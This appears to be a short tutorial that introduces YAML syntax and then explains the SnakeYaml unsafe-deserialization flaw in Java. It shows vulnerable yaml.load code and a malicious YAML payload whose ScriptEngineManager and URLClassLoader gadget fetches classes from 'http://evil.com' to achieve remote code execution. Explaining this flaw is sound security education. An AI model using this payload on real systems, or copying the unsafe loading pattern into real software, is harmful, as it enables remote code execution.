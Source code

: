 ### YAML Language

YAML is a human-readable data serialization language used for data storage and data exchange formats. Originally, YAML stands for Yet Another Markup Language, but then change to a recursive acronym stands for YAML Ain’t Markup Language. Not only YAML is used for writting configuration files and metadata but also be used to many data structures such as arrays, and dictionaries.

Below is an example of a simple YAML structure:

```yaml
name: John Cena
alias:
    - Bing Chilling
    - Who?
    - You Can't See Me
age: 47
hometown: China
occupations:
    - "1999–2025": wrestler
    - "2002–2005": rapper
    - "2006–present": actor
```

The YAML format mainly uses these three types:
- Mapping: a map/dictionary-like type with each element is a pair of key-value type, and each key must be unique.
- Sequences: an array/list type structure
- Literals: string, number, boolean,... type.


## Workflow
SnakeYaml vulnerability example code:
```java
Yaml yaml = new Yaml();
File file = new File("file.yaml");
InputStream inputStream = new FileInputStream(file);
User user = yaml.load(inputStream);
```

When you load a file yaml that can have untrusted user input. Without any input validation, you can get remote code execute from attacker. 

One of existed features of SnakeYaml is its support for a special syntax that allows the constructor of any Java class to be called when parsing YAML data.

Because the input gets parsed to the generic `Object.class`, which is [supertype](https://docs.oracle.com/javase/8/docs/api/java/lang/Object.html) of `Object` in Java and when `Object` is loaded into memory, any type can be used. This allows attacker using any  gadget or gadget chain available in the classpath of the application.

**How does the malicious YAML file looks like ?**
Vulnerable class example:
```java
class VulnerableClass {
  public String command;
  public String toString() {
    return command;
  }
}
```
File YAML:
```yaml
!!VulnerableClass
command: !!javax.script.ScriptEngineManager [ !!java.net.URLClassLoader [[ !!java.net.URL [ "http://evil.com" ] ] ]]
```
